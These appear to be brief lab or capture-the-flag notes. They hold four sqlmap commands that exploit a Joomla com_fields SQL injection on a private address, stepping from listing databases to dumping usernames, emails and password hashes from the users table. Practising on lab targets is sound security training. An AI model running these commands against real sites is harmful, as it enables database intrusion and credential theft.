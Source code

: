 
https://mahim-firoj.medium.com/sqlmap-cheat-sheet-15fe7fff2e8c

```bash title="db 추출"
sqlmap -u "http://10.201.19.63/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs
```

```bash "table 추출"
sqlmap -u "http://10.201.19.63/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla --tables
```

```bash title="column 추출"
sqlmap -u "http://10.201.19.63/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

```bash title="data 추출"
sqlmap -u "http://10.201.19.63/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password --dump
```

